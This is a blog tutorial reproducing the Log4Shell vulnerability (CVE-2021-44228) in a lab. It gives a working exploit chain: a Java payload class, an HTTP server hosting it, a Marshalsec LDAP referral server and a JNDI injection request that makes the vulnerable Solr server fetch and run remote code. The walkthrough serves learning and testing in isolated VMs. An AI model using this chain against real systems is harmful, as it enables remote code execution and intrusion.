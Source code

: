 ```yaml
---
title: "Reproducing the Log4Shell vulnerability (CVE-2021-44228)"
tags:
  - Log4Shell
  - CVE-2021-44228
  - Exploitation
  - Log4j
---
```

# Introduction
In this blog post we will be diving into the necessary steps to reproduce the Log4Shell vulnerability (CVE-2021-44228). Log4Shell is a software vulnerability in Apache Log4j2, a popular Java-based logging utility. The vulnerability has received lots of coverage on Social Media. I highly recommend watching the following videos if you wish to learn more about the background information of Log4Shell:
- [LiveOverflow: *Log4j Vulnerability (Log4Shell) Explained // CVE-2021-44228*](https://www.youtube.com/watch?v=w2F67LbEtnk)<br>
- [LiveOverflow: *Log4j Lookups in Depth // Log4Shell CVE-2021-44228 - Part 2*](https://www.youtube.com/watch?v=iI9Dz3zN4d8)<br>
- [John Hammond: *CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE! (and SO MUCH MORE)*](https://www.youtube.com/watch?v=7qoPDq41xhQ)<br>

<br>

# Reproduction
## Virtual Environment setup
The virtual environment for reproducing the Log4Shell vulnerability consists of two virtual machines:
- VM1 (Windows 11 OS): hosts [Apache Solr 7.7.3](https://solr.apache.org/downloads.html), which uses a vulnerable version of Apache Log4j
- VM2 (Kali Linux OS):  hosts a simple HTTP server which contains our Java payload, and a LDAP referral server (using [Marshalsec](https://github.com/mbechler/marshalsec)) to redirect traffic to the HTTP server

We will use [VirtualBox](https://www.virtualbox.org/) to manage our virtual machines.

VM1 will get the 10.0.0.10 static IP address:<br>
![vm1ipv4settings.png](/assets/images/vm1ipv4settings.png)<br>
You can configure this by navigating to *Control Panel --> Network and Sharing Center --> Change adapter settings --> Right click on your network device --> Properties --> Internet Protocol Version 4 (TCP/IPv4) --> Properties*

VM2 will get the 10.0.0.11 static IP address:<br>
![vm2ipv4settings.png](/assets/images/vm2ipv4settings.png)<br>
You can configure this by entering the following command in a terminal: *sudo ifconfig eth0 10.0.0.11 netmask 255.0.0.0*

Once the static IP addresses are configured, make sure that both VM's can ping eachother:<br>
![ping01.png](/assets/images/ping01.png)<br>
<br>
![ping02.png](/assets/images/ping02.png)<br>
<br>

## Setting things up on VM1 (Windows 11 OS)
Apache Solr requires Java Runtime Environment (JRE) version 1.8 or higher in order to run. In this blog post we will use JDK 1.8.0_181. You can download it from the official Oracle website, but this will require you to sign up for an account first. You can also use a download mirror, such as:
https://mirrors.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-windows-x64.exe

After installing JDK 1.8.0_181 on your VM, download Solr 7.7.3 from https://solr.apache.org/downloads.html and unzip the file. Now open a new commandprompt and navigate to the directory in order to launch the application. I've unzipped Solr on my Desktop, so I will cd into ```C:\Users\User\Desktop\solr-7.7.3a\solr-7.7.3\bin``` and run the ```solr start``` command:<br>
![solrstart.png](/assets/images/solrstart.png)<br>

With the Solr server running, open your web browser and browse to [http://127.0.0.1:8983/](http://127.0.0.1:8983/). You should be presented with a dashboard that looks something like this:<br>
![solrdashboard.png](/assets/images/solrdashboard.png)<br>


## Setting things up on VM2 (Kali Linux OS)
Now that our target is reachable and running an application that is vulnerable to Log4Shell, it is time to prepare our attacking machine. First of, we need a Java payload that can be called when the target connects to our LDAP server. Save the code below, for example as ```/tmp/demo/Exploit.java```.<br>

```Java
public class Exploit {
  static {
    try {
      java.lang.Runtime.getRuntime().exec("cmd.exe /c echo Hello! > Log4Shelldemo.txt").waitFor();
    } catch (Exception e) {
      e.printStackTrace();
    }
  }
}
```

This payload is quite simple and harmless. All it does is put the text "Hello!" into a file called "Log4Shelldemo.txt".

Our payload needs to be compiled using the same Java version as the application that we're exploiting, so go ahead and download the Linux version of JDK 1.8.0_181 onto VM2 (mirror: https://mirrors.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz). Extract it using the ```tar -xvzf jdk-8u181-linux-x64.tar.gz``` command. <br> Now compile the payload by running ```./jdk1.8.0_181/bin/javac /tmp/demo/Exploit.java```:<br>
![compilepayload.png](/assets/images/compilepayload.png)<br>
This should result in a file called Exploit.class in our /tmp/demo directory:<br>
![exploitclass.png](/assets/images/exploitclass.png)<br>

We want to host this file on a simple HTTP server. In this case we will host it on port 8000 by running
```python3 -m http.server 8000 -d /tmp/demo```:<br>
![httpserver01.png](/assets/images/httpserver01.png)<br>

Next, using [Marshalsec](https://github.com/mbechler/marshalsec), we will run our malicious LDAP server to redirect traffic to the HTTP server with our payload. Follow these steps:
1. Install Maven by running ```sudo apt-get install maven```
2. ```cd /tmp```
3. ```git clone https://github.com/mbechler/marshalsec.git```
4. ```cd marshalsec```
5. ```mvn clean package -DskipTests```
6. ```cd target```
7. ``` java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.0.0.11:8000/#Exploit" ```

You should now have a running LDAP referral server that is listening on port 1389:<br>
![ldapserver01.png](/assets/images/ldapserver01.png)<br>

## Exploitation
Now that we have both a Java payload on a HTTP server and a malicious LDAP server to redirect the traffic, we can send our exploit string to the Apache Solr application. We will use cURL to send the following malicious GET request to our target:<br>```curl 'http://10.0.0.10:8983/solr/admin/cores?foo=$\{jndi:ldap://10.0.0.11:1389/Exploit\}' ```
Once the string gets parsed by the Log4j2 logger, the vulnerable application will reach out to the LDAP server and look for the "Exploit" object. It will then get redirected to the HTTP server, load our Exploit.class payload and execute it!

So, let's send the GET request:<br>
![getrequest01.png](/assets/images/getrequest01.png)<br>

Inside our other terminal window, we can see that the LDAP server successfully redirected the traffic:<br>
![ldapserver02.png](/assets/images/ldapserver02.png)<br>

And on our HTTP server, we can see a GET request from 10.0.0.10 for our Exploit.class payload with a status code of 200:<br>
![httpserver02.png](/assets/images/httpserver02.png)<br>

Back on our Windows 11 VM, let's browse to the Apache Solr server folder:<br>
![solrserver01.png](/assets/images/solrserver01.png)<br>
And as you can see, our Log4Shelldemo.txt file is right there. If we open it, it should contain the "Hello!" text:<br>
![log4shelldemo.png](/assets/images/log4shelldemo.png)<br>
This means that our payload was executed and the exploit was succesful! 
<br>
<br>
<br>

*Sources:*
1. *[https://tryhackme.com/room/solar](https://tryhackme.com/room/solar)*
2. *[https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)*
3. *[https://www.perfacilis.com/blog/security/how-to-check-and-mitigate-the-log4j-vulnerability.html](https://www.perfacilis.com/blog/security/how-to-check-and-mitigate-the-log4j-vulnerability.html)*
4. *[https://solr.apache.org/guide/8_11/index.html](https://solr.apache.org/guide/8_11/index.html)*
5. *[https://securityboulevard.com/2021/12/log4shell-jndi-injection-via-attackable-log4j/](https://securityboulevard.com/2021/12/log4shell-jndi-injection-via-attackable-log4j/)*
6. *[LiveOverflow: *Log4j Vulnerability (Log4Shell) Explained // CVE-2021-44228*](https://www.youtube.com/watch?v=w2F67LbEtnk)*
7. *[LiveOverflow: *Log4j Lookups in Depth // Log4Shell CVE-2021-44228 - Part 2*](https://www.youtube.com/watch?v=iI9Dz3zN4d8)*
8. *[John Hammond: *CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE! (and SO MUCH MORE)*](https://www.youtube.com/watch?v=7qoPDq41xhQ)*
